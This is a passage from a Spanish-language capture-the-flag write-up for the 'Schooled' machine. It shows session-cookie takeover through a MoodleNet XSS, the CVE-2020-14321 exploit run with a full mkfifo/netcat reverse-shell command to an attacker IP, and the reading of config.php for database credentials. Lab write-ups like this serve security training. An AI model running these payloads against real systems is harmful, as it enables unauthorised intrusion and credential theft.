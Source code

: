 1. Le damos a Update Profile.

Esperamos un poco y vemos que una peticion a sido lanzada y vemos una cookie de session 

```{r, echo = FALSE, fig.cap="MoodleNet XSS", out.width="90%"}
    knitr::include_graphics("images/Schooled-moodlenet-xss.png")
```

Cambiamos la cookie desde firefox y recargamos la pagina. Ya vemos que nos hemos convertido en Manuel Philips.
Buscando por internet con busquedas de typo `moodle professor role rce github`, vemos que existe un CVE 2020-14321.

Encontramos un exploit y lo utilizamos para crear una reverse shell.
## Vuln exploit & Gaining Access {-}

### Ganando accesso con moodle siendo professor {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Cargamos y lanzamos el exploit

    ```bash
    git clone https://github.com/lanzt/CVE-2020-14321
    cd CVE-2020-14321
    python3 CVE-2020-14321_RCE.py --cookie v6tp73g3lnflt81rvtn29jivj6 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 443 >/tmp/f" http://moodle.schooled.htb/moodle
    ```

Y ganamos accesso al systema como el usuario **www**. No podemos lanzar una pseudo consola con tratamiento de la TTY pero seguimos investigando.

### User pivoting {-}

```bash
cd ..
ls
pwd
cd /usr/local/www/apache24/data/moodle
ls -l
cat config.php
```

Vemos un `config.php` con credenciales para mysql. 

```bash
which mysql
which mysqlshow
export $PATH
```

Aqui vemos que el PATH es muy pequeño. Copiamos nuestro PATH de la maquina de atacante y la ponemos en la victima
